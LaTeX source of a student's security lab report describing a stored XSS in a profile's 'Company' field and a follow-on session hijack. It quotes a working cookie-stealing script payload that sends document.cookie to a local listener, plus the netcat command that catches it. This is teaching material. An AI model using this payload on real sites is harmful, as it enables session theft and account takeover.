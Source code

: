 \documentclass[11pt, letterpaper]{article}
\newcommand{\myheader}[2]
{\noindent{Bradford Smith (bsmith8)}\\
    #1 \\
    #2 \\
    \textit{``I pledge my honor that I have abided by the Stevens Honor System.''}\\
}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\myheader{CS 577 Lab 6}{10/29/2015}
\begin{itemize}
    \item[1 ]\textbf{Cookies}
        \begin{itemize}
            \item[1.1 ]\textbf{Stealing the User's Cookie}\\
                The User profile field ``Company'' was found to be vulnerable to a JavaScript injection attack. The string I used to get the user's session id cookie was \code{<script>document.write(`<img src=http://127.0.0.1:8000/?id=' + document.cookie + `/>');</script>} which I put in the ``Company'' field for the user ``ted''. This sends the user's cookie as a GET parameter to the localhost port 8000, which can be retrieved using \code{nc -l 8000}.
            \item[1.2 ]\textbf{Session Hijacking}\\
                First I used the \code{LiveHTTPHeaders} extension to capture the HTTP request which creates a project.\\
       \includegraphics[scale=0.5]{session-hijack-screenshot1}\\
       Then I created \code{code/session-hijack.js} (included in this submission) to construct a matching header and send it to the appropriate host. To run the attack one must capture a victim's cookie using the method in 1.1 and paste the \code{PHPSESSID=} line into the JavaScript program's variable ``myCookie'', I also created a small \code{code/session-hijack.html} file (also included) which just loads the JavaScript in order to make running the attack easy.\\

\end{itemize}
\end{itemize}
\end{document}
